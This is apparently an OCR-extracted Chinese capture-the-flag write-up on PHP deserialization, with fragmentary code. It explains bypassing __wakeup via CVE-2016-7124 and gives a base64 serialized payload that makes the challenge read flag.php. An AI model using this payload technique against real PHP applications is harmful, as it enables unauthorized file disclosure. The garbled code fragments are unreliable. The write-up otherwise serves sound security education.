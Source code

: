 ID \= $ID; $this\->sex \= $sex; $this\->age \= $age; $this\->info \= sprintf("ID: %s, age: %d, sex: %s", $this\->ID, $this\->sex, $this\->age); } public function \_\_toString(){ return $this\->info; } } $me \= new Caiji('twosmi1e', 20, 'male'); echo '\_\_toString:' . $me . '
'; ?> 运行结果：

![null](1544260686584.png)

### 热身题

这是D0g3平台一道很简单的反序列化的题，GET读str内容进行反序列化等于$KEY就get flag了

file)) { if(strchr($this\-> file,"\\\\")\===false && strchr($this\->file, '/')\===false) show\_source(dirname (\_\_FILE\_\_).'/'.$this \->file); else die('Wrong filename.'); } } function \_\_wakeup(){ $this\-> file\='index.php'; } public function \_\_toString() return '' ; } } if (!isset($\_GET\['file'\])){ show\_source('index.php'); } else{ $file\=base64\_decode($\_GET\['file'\]); echo unserialize($file); } ?>


分析一下源码，`__destruct`方法中`show_source(dirname (__FILE__).'/'.$this ->file);`会读取file文件内容，我们需要利用这里来读flag.php，思路大概就是构造序列化对象然后base64编码传入，经过unserialize将file设为flag.php，但是`__wakeup`会在unserialize之前执行，所以要绕过这一点。

这里就要用到CVE-2016-7124漏洞，**当序列化字符串中表示对象属性个数的值大于真实的属性个数时会跳过__wakeup的执行**

构造序列化对象：O:5:"SoFun":**1**:{S:7:"\00*\00file";s:8:"flag.php";}
**绕过__wakeup**：O:5:"SoFun":**2**:{S:7:"\00*\00file";s:8:"flag.php";}

注意：因为file是protect属性，所以需要加上\00*\00。再base64编码。
payload：Tzo1OiJTb0Z1biI6Mjp7Uzo3OiJcMDAqXDAwZmlsZSI7czo4OiJmbGFnLnBocCI7fQ==

这里可以自己写一个相对简单的例子来加以理解

key)){ if($this\->key \== 'twosmi1e') echo 'success'; } } function \_\_wakeup(){ $this\->key \= 'you failed 23333'; echo $this\->key; } public function \_\_toString(){ return ''; } } if(!isset($\_GET\['answer'\])){ show\_source('serializetest.php'); }else{ $answer \= $\_GET\['answer'\]; echo $answer; echo '
'; echo unserialize($answer); } ?> 我们首先构造序列化正常序列化对象：`O:9:"Twosmil1e":1:{s:3:"key";s:8:"twosmi1e";}`

![null](1545226643834.png)
